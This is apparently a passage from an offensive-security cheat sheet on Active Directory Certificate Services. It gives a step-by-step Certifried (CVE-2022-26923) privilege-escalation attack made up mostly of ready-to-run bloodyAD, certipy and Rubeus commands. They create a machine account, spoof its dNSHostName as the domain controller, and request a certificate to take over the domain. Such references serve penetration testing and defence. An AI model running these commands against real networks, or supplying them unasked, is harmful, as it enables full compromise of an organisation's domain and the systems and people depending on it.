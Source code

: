 * Email required (`CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` or `CT_FLAG_SUBJECT_REQUIRE_EMAIL`): only principals with their `mail` attribute set can enroll unless the template is of schema version 1.
    * By default, users and computers do not have their `mail` attribute set, and they cannot modify this attribute themselves.
    * Users might have the `mail` attribute set, but it is rare for computers.

## Certifried CVE-2022-26923

> An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

* Find `ms-DS-MachineAccountQuota`

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'DC=lab,DC=local' --attr ms-DS-MachineAccountQuota 
  ```

* Add a new computer in the Active Directory, by default `MachineAccountQuota = 10`

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 add computer cve 'CVEPassword1234*'
  certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
  ```

* [ALTERNATIVE] If you are `SYSTEM` and the `MachineAccountQuota=0`: Use a ticket for the current machine and reset its SPN

  ```ps1
  Rubeus.exe tgtdeleg
  export KRB5CCNAME=/tmp/ws02.ccache
  bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local set object 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName
  ```

* Set the `dNSHostName` attribute to match the Domain Controller hostname

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 set object 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName -v DC.lab.local
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'CN=cve,CN=Computers,DC=lab,DC=local' --attr dNSHostName
  ```

* Request a ticket

  ```ps1
  # certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
  certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
  ```

* Either use the pfx or set a RBCD on your machine account to takeover the domain
